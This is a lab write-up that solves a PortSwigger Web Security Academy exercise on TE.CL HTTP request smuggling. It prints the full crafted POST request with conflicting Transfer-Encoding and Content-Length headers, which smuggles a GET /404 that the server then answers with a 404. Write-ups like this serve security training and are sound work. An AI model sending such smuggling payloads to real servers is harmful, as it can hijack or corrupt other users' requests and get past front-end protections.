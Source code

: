 # HTTP request smuggling, confirming a TE.CL vulnerability via differential responses | Jan 28, 2023

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/request-smuggling/finding/lab-confirming-te-cl-via-differential-responses), you'll learn: HTTP request smuggling, confirming a TE.CL vulnerability via differential responses! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab involves a front-end and back-end server, and the back-end server doesn't support chunked encoding.

To solve the lab, smuggle a request to the back-end server, so that a subsequent request for `/` (the web root) triggers a 404 Not Found response.

## Exploitation

**Home page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-5/images/Pasted%20image%2020230128190147.png)

Burp Suite HTTP history:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-5/images/Pasted%20image%2020230128190204.png)

We can send this request to Burp Suite's Repeater:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-5/images/Pasted%20image%2020230128190221.png)

Then change the request method to POST:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-5/images/Pasted%20image%2020230128190345.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-5/images/Pasted%20image%2020230128190351.png)

Now, we can try to test the web application is vulnerable to TE.CL HTTP request smuggling (Front-end uses `Transfer-Encoding` header, back-end uses `Content-Length` header).

**To do send, we first send an attack request:**
```http
POST / HTTP/1.1
Host: 0aa8008603dfb20dc1821ccb00080051.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked
Content-Length: 4

a7
GET /404 HTTP/1.1
Host: 0aa8008603dfb20dc1821ccb00080051.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 20

smuggled=yes
0


```

> Note: You need to include the trailing sequence `\r\n\r\n` following the final `0`, and go to the Repeater menu and ensure that the "Update Content-Length" option is unchecked.

This attack request will:

- The front-end server uses `Transfer-Encoding` header, which means it'll see hex chunk `a7` (Decimal 167)
- The back-end server uses `Content-Length` header, which means it'll just see `a7\r\n`. That being said, the back-end server will see:

```http
GET /404 HTTP/1.1
Host: 0aa8008603dfb20dc1821ccb00080051.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 20

smuggled=yes
0


```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-5/images/Pasted%20image%2020230128191347.png)

**After that, we can send a normal GET request:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-5/images/Pasted%20image%2020230128191436.png)

**Smuggled normal GET request:**
```http
GET /404 HTTP/1.1
Host: 0aa8008603dfb20dc1821ccb00080051.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 20

smuggled=yes
0

GET / HTTP/1.1
[...]
```

Nice! We successfully smuggled an attack 404 GET request, and can confirm the web application is vulnerable to TE.CL HTTP request smuggling.

# What we've learned:

1. HTTP request smuggling, confirming a TE.CL vulnerability via differential responses